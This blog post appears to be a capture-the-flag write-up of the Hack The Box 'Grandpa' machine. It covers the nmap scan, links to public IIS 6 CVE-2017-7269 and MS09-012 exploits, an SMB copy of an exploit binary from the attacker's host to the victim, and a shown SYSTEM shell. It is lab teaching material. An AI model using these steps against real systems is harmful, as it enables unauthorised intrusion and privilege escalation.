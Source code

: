 ```yaml
---
layout: post
title: Grandpa without metasploit
date: 2020-04-1
author: the-bilal-rizwan
comments: true
categories: htb
tags: [Windows,htb]
---
```


## Grandpa without metasploit

So I thought time to shift focus from metasploit and try to do machines without metasploit. I'll admit it took wayy longer and many many failed attempts before I finally got root. Hope ya'll learn some new tricks form this writeup

![main]({{ site.giturl }}/MyCtfWriteups/assets/images/htb/Grandpa/main.png)


Let's do a quick nmap all ports

```perl

Nmap scan report for 10.10.10.14
Host is up (0.16s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
| http-methods: 
|_  Potentially risky methods: TRACE COPY PROPFIND SEARCH LOCK UNLOCK DELETE PUT MOVE MKCOL PROPPATCH
| http-ntlm-info: 
|   Target_Name: GRANPA
|   NetBIOS_Domain_Name: GRANPA
|   NetBIOS_Computer_Name: GRANPA
|   DNS_Domain_Name: granpa
|   DNS_Computer_Name: granpa
|_  Product_Version: 5.2.3790
|_http-server-header: Microsoft-IIS/6.0
|_http-title: Under Construction
| http-webdav-scan: 
|   Server Type: Microsoft-IIS/6.0
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, COPY, PROPFIND, SEARCH, LOCK, UNLOCK
|   WebDAV type: Unknown
|   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|_  Server Date: Fri, 03 Apr 2020 18:34:04 GMT
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

<br>

### Enumeration

- So I search for IIS 6 vulnerabilites and mainly found 2 things 
- 1) Web Dav exploit
- 2) The BufferOver flow exploit, since I used the webdav one in granny htb machine, thought I'd try buffer over flow so I found an exploit for it on github.
https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269/blob/master/iis6%20reverse%20shell  





### Exploitation


Using the iis6 buffer overflow exploit I got an inital shell on the Windows box

![initial shell]({{ site.giturl }}/MyCtfWriteups/assets/images/htb/Grandpa/shell1.png)


Now I won't lie Priv esec was a bitch, took hours. What I am presenting here is the final version of what happened but originally I hit many dead ends and restarted the machine about 10 times or more.

- So started off using Windows Exploit suggester which requires us to save the systeminfo in a text file and feed that as an arguments to find known exploits for that version of the OS.


```perl
sysinfo 
C:\wmpub\test>systeminfo 
systeminfo

Host Name:                 GRANPA
OS Name:                   Microsoft(R) Windows(R) Server 2003, Standard Edition
OS Version:                5.2.3790 Service Pack 2 Build 3790
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Uniprocessor Free
Registered Owner:          HTB
Registered Organization:   HTB
Product ID:                69712-296-0024942-44782
Original Install Date:     4/12/2017, 5:07:40 PM
System Up Time:            0 Days, 0 Hours, 11 Minutes, 18 Seconds
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               X86-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: x86 Family 23 Model 1 Stepping 2 AuthenticAMD ~2000 Mhz
BIOS Version:              INTEL  - 6040000
Windows Directory:         C:\WINDOWS
System Directory:          C:\WINDOWS\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             en-us;English (United States)
Input Locale:              en-us;English (United States)
Time Zone:                 (GMT+02:00) Athens, Beirut, Istanbul, Minsk
Total Physical Memory:     1,023 MB
Available Physical Memory: 796 MB
Page File: Max Size:       2,470 MB
Page File: Available:      2,327 MB
Page File: In Use:         143 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 1 Hotfix(s) Installed.
                           [01]: Q147222
Network Card(s):           N/A

```

![Windows exploit suggester]({{ site.giturl }}/MyCtfWriteups/assets/images/htb/Grandpa/exploit-suggest.png)


- after many a failed exploits I finally found MS09-012 and it worked landing me in a system shell
https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS09-012  

- Downloaded the pr.exe file and transfered it to the victim using impacket smbserver

- the smb share can easily be accessed using copy command from the prompt 

>Prompt> copy \\<IP>\test\pr.exe .


![smbserver]({{ site.giturl }}/MyCtfWriteups/assets/images/htb/Grandpa/smbserver.png)



- after copied on the victim it can be used as follows : pr.exe "command"

```perl
C:\wmpub\test>copy \\10.10.14.18\test\pr.exe .    
copy \\10.10.14.18\test\pr.exe .
        1 file(s) copied.

C:\wmpub\test>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 246C-D7FE

 Directory of C:\wmpub\test

04/04/2020  10:48 AM    <DIR>          .
04/04/2020  10:48 AM    <DIR>          ..
04/04/2020  10:42 AM            73,728 pr.exe
               1 File(s)         73,728 bytes
               2 Dir(s)  18,093,436,928 bytes free

C:\wmpub\test>pr.exe "whoami"
pr.exe "whoami"
/xxoo/-->Build&&Change By p 
/xxoo/-->This exploit gives you a Local System shell 
/xxoo/-->Got WMI process Pid: 1864 
begin to try
/xxoo/-->Found token SYSTEM 
/xxoo/-->Command:whoami
nt authority\system

C:\wmpub\test>whoami
whoami
nt authority\network service

C:\wmpub\test>

```




![system]({{ site.giturl }}/MyCtfWriteups/assets/images/htb/Grandpa/system.png)

phew! we otta do more of these non msf ctfs.